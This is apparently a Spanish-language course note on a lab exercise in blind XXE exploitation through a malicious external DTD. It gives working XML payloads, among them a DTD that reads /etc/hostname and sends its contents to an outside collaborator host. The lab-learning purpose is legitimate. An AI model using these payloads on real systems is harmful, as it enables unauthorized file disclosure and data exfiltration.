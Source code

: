 En esta clase continuamos explorando técnicas avanzadas de explotación XXE ciega, esta vez utilizando una DTD externa maliciosa para exfiltrar el contenido del archivo /etc/hostname. Como la aplicación no muestra la respuesta del servidor, debemos forzar que este realice una petición externa que contenga los datos deseados.

Preparamos un archivo DTD en nuestro exploit server que define una entidad para leer el archivo local y otra para enviar su contenido mediante una petición HTTP a Burp Collaborator. Luego referenciamos esta DTD desde la carga XML enviada al stock checker.

Al realizar la petición y observar actividad en Collaborator, incluyendo potencialmente el contenido del archivo, conseguimos demostrar y aprovechar la vulnerabilidad, incluso en un escenario completamente ciego. Esta técnica es especialmente útil cuando no hay ningún tipo de respuesta visible en la interfaz.

En esta clase continuamos con el mismo laboratorio anterior, centrado en la explotación de una vulnerabilidad XXE ciega mediante una DTD externa maliciosa. Ya tenemos definido y alojado el archivo DTD en nuestro exploit server, y ahora utilizamos este recurso para finalizar la exfiltración del contenido del archivo /etc/hostname.

Repasamos cómo se estructura correctamente la carga XML que referencia esa DTD, y analizamos los resultados obtenidos en Burp Collaborator para verificar que la petición externa con los datos del archivo fue realizada correctamente. Este enfoque consolida el uso de entidades parametrizadas en DTD externas como una técnica poderosa para filtrar información sensible en entornos sin salida directa.

------


1. Primero probar en los campos de XML si reflejan el valor que añadimos
2. Crear un entidad externa
3. Crear una entidad interna en el parametro

Creamos una peticion con un XXE en parametro,  para enviarlo al collaborator:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://burpsuite-collaborator/" > %xxe;]>
<productId>
1
</productId>
```

Ahora para extraer datos, como ya vimos que podemos hacer peticiones a mi collaborator, ahora cambiamos el recurso con el del Exploit Server

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://exploit-server/" > %xxe;]>
<productId>
1
</productId>
```

Y desde el Log del server, vemos que nos realiza una peticion al exploit-server

Para ello enviaremos una DTD externa maliciosa

#### Exploit Server:

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY % exfil SYSTEM 'https://colaborator.com/?content=%file;'>">

//Comentario: Debemos de representar el "%" de la entidad, como &#x25;
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'https://colaborator.com/?content=%file;'>">
%eval;
%exfil;
```

Y con esto, nos llega un solicitud a nuestro collaborator con el comando hostname